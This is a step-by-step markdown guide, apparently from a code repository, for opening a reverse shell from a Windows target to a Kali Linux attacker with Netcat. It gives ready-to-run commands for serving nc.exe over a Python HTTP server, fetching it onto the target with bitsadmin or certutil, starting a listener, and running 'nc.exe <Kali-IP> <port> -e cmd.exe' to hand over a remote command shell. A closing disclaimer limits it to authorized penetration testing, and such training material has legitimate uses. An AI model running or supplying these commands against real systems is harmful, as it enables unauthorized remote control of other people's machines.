# Reverse Shell Using Netcat from Windows CMD

## Overview

This guide demonstrates how to set up a **reverse shell** from a **Windows victim machine** to an **attacking Kali Linux machine** using **Netcat** (`nc.exe`). The reverse shell is established using HTTP file transfer methods such as **bitsadmin** or **certutil**.

### Prerequisites
- **Attacker Machine (Kali Linux)**: Should have Python installed for serving the reverse shell binary.
- **Victim Machine (Windows)**: Should have access to **CMD** and tools like **bitsadmin** or **certutil** for downloading the reverse shell binary.

---

## Step-by-Step Walkthrough

### 1. **Prepare `nc.exe` on the Attacker Machine**

1. **Navigate to the directory** on your **Kali Linux** machine where you want to prepare `nc.exe` (Netcat executable):

    ```bash
    cp /usr/share/windows-resources/binaries/nc.exe .
    ```

    This command copies the `nc.exe` binary from Kali’s repository of Windows resources to the current working directory.

---

### 2. **Set Up HTTP Server to Serve `nc.exe`**

2. **Start a simple HTTP server** on Kali to host the `nc.exe` file for download by the victim machine:

    ```bash
    python3 -m http.server 80
    ```

    This command will serve the `nc.exe` file over HTTP on port 80 (ensure no firewall is blocking this port).

---

### 3. **Download `nc.exe` on the Windows Victim Machine**

3. On the **Windows victim machine**, create a directory to store the downloaded `nc.exe` file:

    ```cmd
    mkdir C:\temp
    ```

4. **Download `nc.exe` using one of the following methods**:

   #### Method 4: Using `bitsadmin` (Default on older Windows versions)

   ```cmd
   bitsadmin /transfer myDownloadJob /download /priority normal http://<Kali-IP>/nc.exe C:\temp\nc.exe
   ```

   Replace `<Kali-IP>` with the **Kali Linux machine’s IP address**.

   #### Method 5: Using `certutil` (Available by default on most Windows versions)

   ```cmd
   certutil -urlcache -split -f http://<Kali-IP>/nc.exe C:\temp\nc.exe
   ```

   Both methods will download `nc.exe` from your Kali machine to `C:\temp\nc.exe` on the victim machine.

---

### 4. **Start the Listener on the Attacker Machine (Kali)**

5. On the **Kali Linux attacker machine**, start a **Netcat listener** to wait for incoming connections from the victim machine:

    ```bash
    rlwrap nc -nlvp <port>
    ```

    Replace `<port>` with the desired port number (e.g., `4444`). This sets up a listener to accept the reverse shell connection.

---

### 5. **Execute the Reverse Shell on the Victim Machine**

6. On the **Windows victim machine**, execute the reverse shell by running the following command:

    ```cmd
    C:\temp\nc.exe <Kali-IP> <port> -e cmd.exe
    ```

    - Replace `<Kali-IP>` with the **Kali machine's IP address**.
    - Replace `<port>` with the same port used in the **Netcat listener**.

    This command will initiate a connection back to your Kali listener and provide a remote **CMD shell** on the victim machine.

---

## Summary

This workflow shows how to:
- Prepare the `nc.exe` binary on Kali.
- Use Python to serve the binary via HTTP.
- Download the binary on the Windows victim machine using tools like **bitsadmin** or **certutil**.
- Execute the reverse shell using **Netcat** (`nc.exe`) to establish a connection to the Kali listener.

---

### Legal Disclaimer

This reverse shell guide is intended for **ethical hacking** and **authorized penetration testing** only. Unauthorized access to computer systems is illegal and unethical. Always get explicit written permission before conducting any tests or activities that may impact a network or system.
